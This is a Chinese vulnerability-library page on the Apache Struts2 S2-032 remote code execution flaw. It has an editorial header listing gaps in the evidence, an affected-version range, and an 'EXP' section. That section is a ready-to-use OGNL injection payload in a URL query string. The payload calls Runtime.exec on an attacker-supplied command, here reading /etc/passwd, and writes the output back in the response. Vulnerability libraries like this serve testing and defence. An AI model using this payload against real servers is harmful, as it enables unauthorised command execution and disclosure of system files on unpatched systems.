

# Struts2 S2-032远程代码执行

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.3.20–2.3.28排除两个修复小版本；DMI启用这一关键条件正文遗漏
- 证据范围：与235完全相同method payload，只将cmd改为读取文件，没有独立分析。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺DMI开启条件、CVE/修复、实验路由及完整请求
- cmd=cat /etc/passwd含原始空格，需正确URL编码
- 正文又内嵌一套YAML头，需合并元数据避免渲染噪声
- Struts重复拼写，结果仅截图

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

---
title: 'Struts2 S2-032远程代码执行'
date: Mon, 24 Aug 2020 13:20:51 +0000
draft: false
tags: ['RCE', 'struts2', '白阁-漏洞库', '远程命令执行']
---

### 影响范围

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

### EXP

```
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat /etc/passwd
```





---

> 来源：白阁文库 BaizeSec/bylibrary
